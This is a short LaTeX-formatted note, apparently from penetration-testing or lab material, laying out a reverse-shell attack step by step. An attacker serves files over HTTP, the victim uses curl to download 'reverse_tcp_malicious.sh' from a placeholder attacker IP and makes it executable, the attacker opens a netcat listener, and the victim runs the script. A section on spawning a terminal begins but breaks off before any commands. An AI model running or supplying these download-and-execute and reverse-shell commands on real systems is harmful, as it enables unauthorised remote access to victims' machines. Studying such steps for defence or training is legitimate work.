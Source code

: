 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\begin{document}
\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  attacker http server (attacker)

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ -m http.server 9090}
\end{Highlighting}
\end{Shaded}
\item
  powned (victim)

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{mkdir}\NormalTok{ /tmp/r}
\ExtensionTok{curl}\NormalTok{ http://}\OperatorTok{<}\NormalTok{pirate_ip}\OperatorTok{>}\NormalTok{:9090/reverse_tcp_malicious.sh -o /tmp/r}
\FunctionTok{chmod}\NormalTok{ +x /tmp/r/reverse_tcp_malicious.sh}
\end{Highlighting}
\end{Shaded}
\item
  listener (attacker)

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  powned (victim)

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{/tmp/r}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{spawning-a-terminal-from-a-shell}{%
\section*{Spawning a terminal from a shell}\label{spawning-a-terminal-from-a-shell}}

After a successfull connection it's important to prepare the shell to be able to work confortably.
The following command are always the same:
\end{document}

